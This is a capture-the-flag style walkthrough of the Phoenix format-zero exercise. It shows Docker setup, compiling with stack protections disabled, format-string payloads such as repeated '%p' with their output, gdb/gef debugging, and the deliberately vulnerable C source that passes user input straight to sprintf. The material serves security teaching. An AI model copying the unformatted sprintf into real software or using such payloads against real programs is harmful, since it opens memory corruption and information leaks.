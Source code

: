 # Phoenix format-zero
https://exploit.education/phoenix/format-zero/
## Static Analysis
##### Result
`Well done, the 'changeme' variable has been changed!`
##### Setup
```
https://hub.docker.com/r/duckll/ctf-box/
docker pull duckll/ctf-box
docker run -idt --name ctf duckll/ctf-box
```
##### Run container
```
docker start ctf
docker container exec -it ctf bash
```


##### Background
I tried a different setup for this challenge. I used a Docker container ( in `non-privileged` mode). This gave some excellent out-of-the-box stuff like `gdb's enhanced debugger`, nice `vi` color coding, `gcc` for compiling code, etc.

Next compile the code.  I didn't want the `compiler` to auto-insert `overflow` defences or add `ASLR`:

`gcc -fno-stack-protector -z execstack -no-pie -o format_zero format_zero.c`

You get a big clue of the issue when you compile the code:

```
format_zero.c: In function ‘main’:
format_zero.c:26:24: warning: format not a string literal and no format arguments [-Wformat-security]
   sprintf(locals.dest, buffer);
```
##### What C API to focus on?
```
[0x00400560]> ii
[Imports]
nth vaddr      bind   type   lib name
―――――――――――――――――――――――――――――――――――――
1   0x00400510 GLOBAL FUNC       puts
2   0x00400520 GLOBAL FUNC       errx
3   0x00000000 GLOBAL FUNC       __libc_start_main
4   0x00400530 GLOBAL FUNC       fgets
5   0x00000000 WEAK   NOTYPE     __gmon_start__
6   0x00400540 GLOBAL FUNC       sprintf
7   0x00400550 GLOBAL FUNC       exit
```

`sprintf` was infamous for a `format string` vulnerability.  For example, you could print a certain `stack` with:

```
/* print the Stack */
printf ("%08x %08x %08x %08x %08x\n");
```
#### man snprintf

> int snprintf(char * restrict str, size_t size, const char * restrict format, ...);
>
> sprintf(), snprintf(), vsprintf(), and vsnprintf() write to
>      the character string str

The `...` tell you it is `variadic function`.  You can pass in any number of arguments.

##### Format String Exploitation
I got lucky with my first guess:
```
root@b8d0276ae4c8:~# ./format_zero
Welcome to https://exploit.education
%p %p %p
Well done, the 'changeme' variable has been changed!
```
Or a better way to pass it in, as run-time:
```
echo "%p %p" | ./format_zero
Well done, the 'changeme' variable has been changed!
```
Now try to find the `segmentation fault`:
```
python -c 'print "%p"*4' | ./format_zero
Well done, the 'changeme' variable has been changed!
```
No luck, let's increase the number of pointers to print:
```
python -c 'print "%p"*11' | ./format_zero
Segmentation fault
```

##### What is happening?
After some renaming of variables and settings Types, the `decompile view` in `Ghidra` is easy to read:

![ghidra_relabelled_main](/images/2020/12/ghidra-relabelled-main.png)



##### Debugging the normal flow
Print stack from Stack Pointer ( works on both 32/64):
`x/24x $sp`
Then try and find the input:
```
gef➤  find $sp, +96,0x41414141
0x7ffdb0b617a0
0x7ffdb0b617b0
2 patterns found.
```
`gef` helpfully tells you that the `RSI register` is pointing to that address which taints the inputted string: `AAAA`
```
$rsi   : 0x00007ffdb0b617a0  →  0x0000000a41414141  ("AAAA"?)
```
Or, you can use:
```
gef➤  x/s $rsi
0x7ffdb0b617a0:	"AAAA\n"
```
##### Source code
```

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char dest[32];
    volatile int changeme;
  } locals;
  char buffer[16];

  printf("%s\n", BANNER);

  if (fgets(buffer, sizeof(buffer) - 1, stdin) == NULL) {
    errx(1, "Unable to get buffer");
  }
  buffer[15] = 0;

  locals.changeme = 0;

  sprintf(locals.dest, buffer);

  if (locals.changeme != 0) {
    puts("Well done, the 'changeme' variable has been changed!");
  } else {
    puts(
        "Uh oh, 'changeme' has not yet been changed. Would you like to try "
        "again?");
  }

  exit(0);
}
```
